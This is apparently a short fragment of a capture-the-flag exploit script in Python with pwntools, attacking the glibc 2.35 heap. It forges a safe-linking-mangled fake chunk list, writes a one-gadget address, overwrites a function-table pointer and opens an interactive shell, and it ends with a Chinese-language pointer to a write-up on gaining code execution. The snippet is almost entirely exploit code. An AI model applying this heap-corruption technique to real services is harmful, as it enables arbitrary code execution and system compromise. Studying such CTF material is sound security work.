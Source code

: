 ```python
for i in range(2):
    edit(1, 0x78, b'A' * 0x10)
    edit(0, 0x0, b'')

fake_chunk_list = flat(
    mangle(target, heap + 0x2a0), b'A' * 8,
    0, 0x78,
)
edit(1, 0x78, fake_chunk_list)
edit(7, 0x78, p64(oneshot))

addr_function_table = heap + 0x2a0 - 0x3d90
edit(9, 0x78, p64(addr_function_table))

gdb.attach(r)
r.interactive()
```



---

glibc 2.35 heap exploit control code execution 的方法可以參考：https://chovid99.github.io/posts/acsc-2023/#gain-code-execution
